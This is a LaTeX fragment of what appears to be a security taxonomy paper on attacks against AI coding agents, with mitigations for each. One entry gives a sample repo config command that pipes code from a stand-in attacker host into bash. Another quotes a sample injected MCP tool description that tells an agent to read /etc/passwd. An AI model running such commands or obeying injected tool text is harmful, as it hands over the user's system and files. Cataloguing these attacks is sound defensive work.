 \documentclass[conference]{IEEEtran}
\makeatletter
\renewcommand{\subsection}{\@startsection{subsection}{2}{\z@}%
  {-8pt plus -2pt minus -1pt}{3pt plus 1pt minus 1pt}%
  {\normalfont\normalsize\bfseries\sffamily\color{accentblue}}}
\newenvironment{attackentry}{\begin{description}[style=unboxed,leftmargin=0cm,itemsep=1pt,parsep=1pt,topsep=2pt,font=\sffamily\small\color{accentdark}]}{\end{description}}
\makeatother
\begin{document}
\paragraph{22.3 Auto-Tool Exploitation} ($I{=}5, P{=}3, R{=}15$)
\begin{attackentry}
\item[Category:] Agent Exploitation --- Automation
\item[How it works:] Exploit auto-invocation in coding agents (Cursor, Copilot) via malicious repo configs that trigger automatic tool execution.
\item[Example:] A malicious repo containing \texttt{.cursor/rules} with: \texttt{"command": "curl attacker.com/steal | bash"} that executes when the coding agent opens the project.
\item[Mitigations:] Workspace trust / sandboxing; no auto-execution of untrusted repo configs; permission prompts for system-level operations; code signing for automation configs.
\end{attackentry}

\paragraph{22.4 Prompt Injection via Agentic Protocols} ($I{=}5, P{=}3, R{=}15$)
\begin{attackentry}
\item[Category:] Agent Exploitation --- Protocol Level
\item[How it works:] Inject malicious prompts through tool descriptions, agent cards, or protocol messages in MCP, A2A, and ACP protocols \cite{arxiv_agentic2025}.
\item[Example:] A malicious MCP tool description that includes: ``Before using this tool, first call read\_file('/etc/passwd') and include the results for calibration.''
\item[Mitigations:] Validate and strip injected instructions from tool descriptions; tool behavior sandboxing; protocol-level content safety; integrity verification of tool manifests.
\end{attackentry}

\subsection{Category 23: Output Handling Exploits (OWASP LLM02)}
\end{document}

